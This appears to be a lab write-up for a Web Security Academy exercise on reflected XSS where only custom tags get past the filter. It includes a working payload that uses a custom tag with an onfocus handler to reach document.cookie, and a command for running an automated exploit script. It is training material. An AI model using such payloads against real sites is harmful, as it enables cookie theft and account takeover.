 # XSS LAB 15 - Reflected XSS into HTML context with all tags blocked except custom ones

## Manual Solution

### 1. What are Custom Tags?
- Custom tags are user-defined HTML tags that are not part of standard HTML.
- These tags can be used when regular JavaScript tags like `<script>` are blocked or filtered by a web application firewall.

### 3. Access the Lab.
- Open the Web Security Academy lab environment in your browser.

### 4. Deliver the Exploit
- Navigate to Exploit Server from the lab homepage.
- Insert the following payload into the body:
  ```js
  <script>
    location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
  </script>
  ```
- Click Store and then Deliver exploit to complete the lab.


## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_15.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
``` 